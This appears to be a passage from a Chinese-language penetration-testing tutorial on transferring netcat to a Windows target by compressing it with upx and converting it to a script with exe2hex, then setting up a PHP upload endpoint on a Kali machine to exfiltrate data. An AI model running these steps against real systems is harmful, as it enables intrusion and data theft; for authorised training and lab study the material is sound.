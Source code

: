 ![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1606231580650-1447f13f-3917-4d11-8d26-62b3cc9c4db0.png)

复制到当前目录：

```
cp /usr/share/windows-resources/binaries/nc.exe .
```

虽然二进制文件已经很小了，但是我们将减小文件大小以显示它是如何完成的。我们将使用upx，一个可执行的打包机（也称为PE压缩工具）：

```
upx -9 nc.exe
```

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1606231629614-917029b0-20cb-427e-912a-5b8e8a5c3c44.png)

如我们所见，upx优化了nc.exe文件减少了近50%。尽管尺寸较小，但windowspe文件仍然可以正常运行。

现在我们的文件已经优化，可以传输了，我们可以转换nc.exe文件在Windows计算机上运行的Windows脚本（.cmd），它将文件转换为十六进制并指示powershell.exe把它重新组装成二进制文件。我们将在转换过程中使用优秀的exe2hex工具：

```
exe2hex -x nc.exe -p nc.cmd
```

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1606231760350-5486e788-ddfb-440c-9aa9-f677920b9037.png)

注意这个脚本中的大多数命令是非交互式的，主要由echo命令组成。在脚本的末尾，我们找到了重建nc.exe文件目标计算机上的可执行文件：

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1606231804947-e3c09726-bea7-4e8b-a0b4-3776d9dc2f9a.png)

当我们将这个脚本复制并粘贴到Windows机器上的一个shell中并运行它时，我们可以看到它确实创建了一个完美工作的原始副本nc.exe文件.

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1606232077427-ddcbd88a-dee6-4969-97de-8f20b01180f0.png)

### 使用Windows脚本的Windows上传

在某些情况下，我们可能需要使用Windows客户端从目标网络中过滤数据。这可能很复杂，因为标准的TFTP、FTP和HTTP服务器在默认情况下很少在Windows上启用。

幸运的是，如果允许出站HTTP流量，我们可以使用System.Net.WebClient类来通过httppost请求将数据上传到Kali机器。

为此，我们可以创建以下PHP脚本并将其另存为upload.php在我们的Kali webroot目录中，/var/www/html：

```
<?php 
$uploaddir = '/var/www/uploads/';

$uploadfile = $uploaddir . $_FILES['file']['name'];

move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile) 
?>
```

PHP代码将处理一个传入的文件上载请求，并将传输的数据保存到/var/www/uploads/目录中。

接下来，我们必须创建uploads文件夹并修改其权限，授予www-data 用户所有权和后续写入权限：

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1606232453513-8f77e0ff-2b7f-4dc8-8ca3-8b92f6a50b1b.png)
